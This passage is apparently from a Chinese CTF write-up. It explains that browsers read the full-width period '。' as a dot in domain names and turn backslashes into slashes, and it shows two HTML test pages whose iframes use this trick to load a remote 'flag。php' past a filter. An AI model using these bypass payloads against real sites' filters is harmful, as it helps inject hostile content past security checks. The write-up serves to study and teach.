 
但是，我在测试的时候并没有发现这个问题。后来，与队友讨论和测试了一下，发现很神奇!!

貌似我的chrome有毒。。只有它不能拦截。在ubuntu上测试了一下，和在别人的mac上测试了一下，都会遇到这个坑。。

估计我的chrome有点逆天😂



#### .号的句号形式绕过 

> 所有的主流浏览器都支持用中文句号替换域名部分的英文句号，原因是一些中文键盘更容易输入中文句号......
>
> https://www.zhihu.com/question/45554645

在域名（包括ip格式）部分，浏览器能把。识别成.，也就是说qq。com可以识别成qq.com 192。168。1。1会是被称192.168.1.1  这样就可以绕过前面部分了。但是，这个特性在url后面就失效了。比如admin。com／flag。php 它只能转化成admin.com/flag。php

同时对于admin.com\test.com 它也会自动转换到admin.com/test.com

结果如下

源码：

```html

<html>
<head>
    <meta charset="utf-8">
    <title>XSS Test Page</title>
</head>
<body>
<p>

            <iframe src=\\104。224。169。90\flag。php

</p>
</body>
```



![juhao](http://momomoxiaoxi.com/img/post/0ctf/juhao.png)

 ```html

<html>
<head>
    <meta charset="utf-8">
    <title>XSS Test Page</title>
</head>
<body>
<p>

            <iframe src=\\router。vip\flag。php

</p>
</body>
 ```
